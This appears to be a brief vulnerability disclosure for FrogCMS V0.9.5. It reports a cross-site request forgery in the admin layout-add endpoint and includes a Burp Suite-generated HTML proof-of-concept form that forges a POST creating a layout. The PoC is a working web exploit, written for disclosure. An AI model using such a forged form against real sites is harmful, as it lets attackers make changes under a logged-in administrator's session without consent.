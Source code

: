 
target:https://github.com/philippe/FrogCMS
version: V0.9.5

FrogCMS V0.9.5 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/?/layout/add

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/?/layout/add" method="POST">
      <input type="hidden" name="/layout/add" value="" />
<input type="hidden" name="layout%5Bname%5D" value="cs1234" />
<input type="hidden" name="layout%5Bcontent_type%5D" value="" />
<input type="hidden" name="layout%5Bcontent%5D" value="" />
<input type="hidden" name="commit" value="Save" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

